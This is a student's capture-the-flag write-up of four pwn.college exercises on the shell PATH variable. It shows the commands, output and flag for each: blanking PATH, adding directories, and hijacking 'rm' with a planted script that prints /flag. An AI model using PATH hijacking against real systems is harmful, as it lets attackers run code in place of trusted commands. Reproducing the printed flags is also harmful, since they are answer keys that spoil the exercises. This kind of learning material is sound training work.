 # THE PATH VARIABLE
### Command:
```
1)hacker@path~the-path-variable:~$ PATH=""
2)hacker@path~the-path-variable:~$ /challenge/run
Output:
Trying to remove /flag...
/challenge/run: line 4: rm: No such file or directory
The flag is still there! I might as well give it to you!
```
### Explanation:
There is a special shell variable, called PATH, that stores a bunch of directory paths in which the shell will search for programs corresponding to commands.

As seen in command 1 i blanked out this PATH variable so that /challenge/run woud'nt be able to use the rm command.
So i used command 2 to run /challenge/run and since the rm command is gone, it coudnt delete the flag and gave it to me.
### Flag:
>pwn.college{YHvU8RKhIYTZ3rnL-KDnmidl1_U.dZzNwUDL0cDM1czW}
# SETTING PATH
### Command:
```
hacker@path~setting-path:~$ PATH=/challenge/more_commands/
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
```
### Explanation:
In this challenge /challenge/run will run the win command via its bare name, but this command exists in the /challenge/more_commands/ directory, which is not initially in the PATH

So I used command 1 and added the /challenge/more_commands/ directory to the PATH variable as it contained the win command needed by /challenge/run.
Then i used command 2 to invoked the win command and got the flag
### Flag:
>pwn.college{AU_kR0MqdkgpiSv5OUlDl7AP1u0.dVzNyUDL0cDM1czW}
# ADDING COMMANDS
### Command:
```
1)hacker@path~adding-commands:~$ touch win
2)hacker@path~adding-commands:~$ PATH=$PATH:/home/hacker
3)hacker@path~adding-commands:~$ echo $PATH
Output:
/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/home/hacker
4)hacker@path~adding-commands:~$ ls /run/workspace/bin
5)hacker@path~adding-commands:~$ echo "cat /flag" > /home/hacker/win
6)hacker@path~adding-commands:~$ ls -l win
7rw-r--r-- 1 hacker hacker 0 Oct 19 17:10 win
8)hacker@path~adding-commands:~$ chmod a+x win
9)hacker@path~adding-commands:~$ ls -l win
Output:
-rwxr-xr-x 1 hacker hacker 10 Oct 19 17:14 win
10)hacker@path~adding-commands:~$ /challenge/run
```
### Explanation:
I used command 1 to create the win file.
I used command 2 to add the /home/hacker directory to the PATH variable.
I used command 3 to see what directories are present in the PATH variable and from command 4 found that cat is in /run/workspace/bin.
Used command 5 to put the cat /flag command in win.
Used chmod to make win executable as seen in command 8.
Used command 10 and got the flag.
### Flag:
>pwn.college{w3mLxFjE7vTeAHUk2eOkoM_lBbO.dZzNyUDL0cDM1czW}
# HIJACKING COMMANDS
### Command:
```
1)hacker@path~hijacking-commands:~$ touch rm
2)hacker@path~hijacking-commands:~$ echo "cat /flag" > rm
3)hacker@path~hijacking-commands:~$ echo cat /flag > rm
4)hacker@path~hijacking-commands:~$ PATH=/home/hacker:$PATH
5)hacker@path~hijacking-commands:~$ echo $PATH
Output:
/home/hacker:/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
6)hacker@path~hijacking-commands:~$ ls -l rm
Output
-rw-r--r-- 1 hacker hacker 10 Oct 19 19:14 rm
7)hacker@path~hijacking-commands:~$ chmod a+rwx rm
8)hacker@path~hijacking-commands:~$ ls -l rm
-rwxrwxrwx 1 hacker hacker 10 Oct 19 19:14 rm
9)hacker@path~hijacking-commands:~$ /challenge/run
Output:
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{E_ts2LiTIE-HIhQI2dbhU0ULORz.ddzNyUDL0cDM1czW}
```
### Explanation:
### Flag:
>pwn.college{E_ts2LiTIE-HIhQI2dbhU0ULORz.ddzNyUDL0cDM1czW}
